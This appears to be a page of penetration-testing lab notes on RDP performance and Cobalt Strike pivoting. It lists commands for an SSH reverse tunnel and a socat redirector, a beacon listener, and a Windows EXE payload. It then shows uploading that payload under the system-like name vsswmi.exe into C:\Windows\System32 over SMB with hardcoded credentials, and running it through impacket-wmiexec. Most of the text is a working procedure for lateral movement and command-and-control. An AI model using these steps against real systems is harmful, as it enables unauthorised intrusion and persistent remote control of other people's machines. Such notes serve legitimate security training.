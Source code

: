 #### RDP Performance Considerations
When interacting with our RDP sessions on an engagement, we may find ourselves contending with slow performance in a given session, especially if we are managing multiple RDP sessions simultaneously. If this is the case, we can access the `Experience` tab in mstsc.exe and set `Performance` to `Modem`.
### Cobalt Strike Pivots
#### Set up Pivot Redirector
```Shell
ssh -R 10.129.238.208:443:10.10.15.211:443 ubuntu@10.129.238.208
```
#### Run socat on redirector
```Shell
sudo socat -v tcp4-listen:443,reuseaddr,fork TCP4:10.10.15.211:443
```
#### Set up Cobalt Strike to have a team server IP of 10.10.15.211
#### Create an HTTP listener
- host will be 172.16.5.129 (ubuntu ip)
- beacon will be 172.16.5.129 (beacon ip)
#### Create payload
- Listener associated with 172.16.5.129
- Output: Windows EXE
- Exit Function: Process
- System Call: none
- Use x64 payload
- Save to Desktop of Kali
#### Create Dynamic Port Forward on pivot host with this command on Kali
```Shell
ssh -D 1080 
```
#### Connect to host over SMB Client from location where you have the payload saved
```Shell
proxychains impacket-smbclient victor:"pass@123"@172.16.5.19
```
#### Go to C$ share
```Shell
use C$
```
#### Go to `C:\Windows\System32`
```Shell
cd C:\Windows\System32
```
#### Upload payload
```Shell
put vsswmi.exe
```
#### Execute the payload
```Shell
proxychains impacket-wmiexec victor:"pass@123"@172.16.5.19 "start C:\Windows\System32\vsswmi.exe"
```
